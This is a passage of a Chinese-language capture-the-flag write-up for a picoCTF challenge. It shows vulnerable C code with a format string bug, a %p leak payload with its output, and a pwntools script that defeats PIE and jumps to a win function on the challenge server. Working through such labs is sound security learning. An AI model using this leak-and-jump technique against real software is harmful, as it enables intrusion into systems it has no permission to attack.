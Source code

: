 ```c
         c = fgetc(fptr);
   }

   printf("\n");
   fclose(fptr);
}
```

還是一樣會跳轉到我們輸入的 address
```c
  ...
   unsigned long val;
   printf(" enter the address to jump to, ex => 0x12345: ");
   scanf("%lx", &val);

   void (*foo)(void) = (void (*)())val;
   ...
```

這次沒有直接提供 address 不過裡面有一個 `fmt` 的漏洞
```c
  ...
  fgets(buffer, 64, stdin);
  printf(buffer);
  ...
```

透過 `fmt` 的漏洞 leak 出 stack 上的 `main+65` 的 address
```bash
$ ./vuln 
Enter your name:%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
0x559dd9bca2a1-0xfbad2288-0x7f4685ef06dd-0x559dd9bca2d9-0x4-0x7f4685fd2ff0-(nil)-0x70252d70252d7025-0x252d70252d70252d-0x2d70252d70252d70-0x70252d70252d7025-0x252d70252d70252d-0x2d70252d70252d70-0x70252d70252d7025-0x7fff8a83000a-0x7fff8a8305c0-0x17dfdebf37e06a00-0x7fff8a8305c0-0x559da5086441
```

```bash
pwndbg> x/i 0x559da5086441
   0x559da5086441 <main+65>:    mov    eax,0x0
```

之後一樣減去 `main+65` 的 offset 後就可以算出 `PIE` 的 base，之後加上目標函數的 offset 就可以取得 flag
```python
from pwn import *

# p = process('./vuln')
p = remote("rescued-float.picoctf.net", 64181)

fmt_payload = b"%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p"
leak_offset = 0x1441
win_offset = 0x0000136a
p.sendlineafter(b":", fmt_payload)

reslut = p.recvline(keepends=False).decode()
leak_addr = int(reslut.split("-")[-1], 16)
pie = leak_addr - leak_offset

win_addr = hex(pie+win_offset)
p.sendlineafter(b": ", win_addr)

p.recvline()
flag = p.recvline().decode()
p.close()

print(flag)
```

